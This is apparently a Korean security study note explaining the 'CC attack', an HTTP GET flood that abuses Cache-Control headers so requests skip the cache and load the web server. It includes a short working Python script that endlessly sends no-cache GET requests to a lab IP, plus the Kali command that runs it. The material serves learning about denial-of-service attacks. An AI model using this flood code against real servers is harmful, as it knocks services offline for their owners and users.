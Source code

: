 ```yaml
---
title:  "cc attack" 

categories:
  - dos
tags:
  - [dos]

toc: true

date: 2022-10-04
last_modified_at: 2022-10-04
---
```


## CC Attack

- CC Attack (=GET Flooding with Cache-Control Attack)

  - HTTP Request의 Cache-Control 메시지 헤더를 조작하여 Cache 서비스가 가능한 자원도 웹 서버가 직접 처리하도록 유도 함

    > Cache-Control: no-store; must-revalidate

    > no-store → 클라이언트에게 요청 받은 데이터를 디스크, 메모리, 별도의 저장 장치(Cache Server)에 저장하는 것을 금지

    > must-revalidate → 웹 서버가 Caching Server에게 저장된 Cache에 대한 검증을 요구하는 메시지(서 버가 전달하는 값)

  - Caching 기능을 무력화 시켜서 웹 서버의 부하를 유발하는 공격

  - Caching Server를 운영하는 웹 사이트가 공격 대상이 될 수 있음

- Cache-Control: no-cache

  - 한꺼번에 여러 글자를 받아서 처리 하지 말고 사용자들이 보내는대로 처리

  - 공격자가 문자를 보내지 않으면 서버는 항상 문자열 대기 상태로 바뀜

    > 이러한 연결을 반복적으로 진행

  - 공격대상 웹서버로 Cache-Size 를 0으로 설정해서 보내면 대상 웹서버는 인코딩된 문자열을 동시에 처리할수 없고 한글자씩 처리

- 공격

  - python 코드를 이용하여 파일 생성

    ```
    ┌──(root㉿kali)-[~]
    └─# vim http_getflood.py 
    ```

    ```
    vi http_getflood.py
    
    import socket
    import time
     
    request_header = 'GET /INDEX.html HTTP/1.1\r\n'
    request_header += 'HOST: 172.16.0.120\r\n'
    request_header += 'Cache-Control: no-cache\r\n'
    request_header += '\r\n'
     
    sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    sock.connect(('172.16.0.120',80))
     
    while True:
        sock.send(request_header.encode())
    ```

    ![화면 캡처 2022-10-06 163824](../../assets/img/화면 캡처 2022-10-06 163824.png)

  - 실행 후 확인

    ```
    ┌──(root㉿kali)-[~]
    └─# python2 http_getflood.py http://172.16.0.120
    ```

    ![화면 캡처 2022-10-06 163946](../../assets/img/화면 캡처 2022-10-06 163946.png)

    

    

